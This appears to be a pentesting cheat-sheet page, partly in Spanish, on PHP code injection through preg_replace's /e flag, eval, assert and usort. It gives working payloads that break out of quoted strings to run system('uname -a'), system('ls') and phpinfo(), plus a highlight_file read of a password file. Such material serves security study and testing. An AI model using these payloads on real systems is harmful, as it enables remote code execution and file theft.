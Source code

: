 ### **Code execution using** **preg\_replace\(\)**

```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```

To execute the code in the "replace" argument is needed at least one match.  
This option of preg\_replace has been **deprecated as of PHP 5.5.0.**

### **Code execution with Eval\(\)**

```text
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```

### **Code execution with Assert\(\)**

Esta función dentro de php permite ejecutar código que está escrito en un string con el objetivo de que se devuelva true o false \(y dependiendo de esto alterar la ejecución\). Por lo general se introducirá la variable del usuario entre medias de un string. Por ejemplo: assert\("strpos\($\_GET\['page'\]\),'..'\) === false"\) --&gt; En este caso el payload para ejecutar un comando podría ser:

```text
?page=a','NeVeR') === false and system('ls') and strpos('a
```

El caso es que hay que romper la query, ejecutar algo y volver a arreglarla \(para ello nos servimos del "and" o "%26%26" o "\|" --&gt; el "or", "\|\|" no funcionan pues si la primera es cierta deja de ejecutar y el ";" no funciona pues solo ejecuta la primera parte\).

**Other option** is to add to the string the execution of the command:  _'.highlight\_file\('.passwd'\).'_

**Other option** \(if you have the internal code\) is to modify some variable to alter the execution: _$file = "hola"_

### **Code execution with usort\(\)**

This function is used to sort an array of items using an specific function.  
To abuse this function:

```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
    usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
    usort();}phpinfo;#, "cmp");
}?>
```
